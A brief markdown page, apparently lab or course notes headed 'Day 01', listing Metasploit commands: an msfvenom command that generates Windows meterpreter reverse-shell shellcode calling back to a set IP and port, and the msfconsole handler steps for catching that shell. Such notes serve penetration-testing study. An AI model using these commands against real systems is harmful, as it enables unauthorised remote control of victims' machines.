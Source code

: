 <div align="center">
  <h1>Day 01</h1>
  <br/>
</div>

##Metasploit commands:
###Shellcode generation:
- msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.61.38 LPORT=9999 -f go

###Listener:
- msfconsole
- exploit/multi/handler
- set payload windows/x64/meterpreter/reverse_http
- set LHOST <Kali IP address>
- set LPORT <non-standard port>
- run